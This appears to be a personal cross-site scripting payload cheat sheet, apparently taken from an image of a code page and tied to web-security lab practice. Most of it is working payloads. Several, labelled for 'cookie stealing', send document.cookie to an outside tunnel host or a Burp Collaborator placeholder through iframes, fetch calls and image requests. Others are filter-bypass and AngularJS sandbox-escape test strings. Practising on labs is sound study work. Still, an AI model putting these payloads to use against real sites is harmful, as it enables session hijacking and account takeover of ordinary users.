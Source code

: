 |||||||||||||||||||||||||||||||||||||||||||||||||||||
<iframe src="javascript:var i=' ' + document.cookie; alert(i); fetch('http://pip3lee101-64604.portmap.host:64604/?sam')">


for cookia stelling
<iframe src="javascript:let i=new Image;i.src='http://pip3lee101-64604.portmap.host:64604/?lee101'+document.cookie; console.log(document.cookie);" >

<iframe src="javascript:fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'GET',
mode: 'no-cors',
body:document.cookie
}); console.log(document.cookie);" >


<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

for cookia stelling herf
javascript:fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});




for seperate html page
<iframe src="https://0a97007b03b5c853c0631f0600af003c.web-security-academy.net/" onload="this.src+='<img src=x onerror=print()>'"></iframe>



|||||||||||||||||||||||||||||||||||||||||||||||||||||
html entities test ===>
&#x6c;&#x65;&#x65;&#x31;&#x30;&#x31;

for anchor href inputs this payload to store <a src="javascript:alert(1)">website</a> ++++===>
javascript:alert(1)


||||||||||||||||||||||||||||||||||||||||||||||||||||||
for testing =====>
<iframe src="javascript:alert('xss');" >
"><svg onload=alert(document.cookie);>
<svg onload=alert(document.cookie);>
"onmouseover="alert('xss')
'-alert(1)-'
{{$on.constructor('alert(1)')()}}
\"-alert(1)}//
<><img src=1 onerror=alert(1)>

||||||||||||||||||||||||||||||||||||||||||||||||||||||
special url payloads =========>
&storeId="></select><img%20src=1%20onerror=alert(1)>
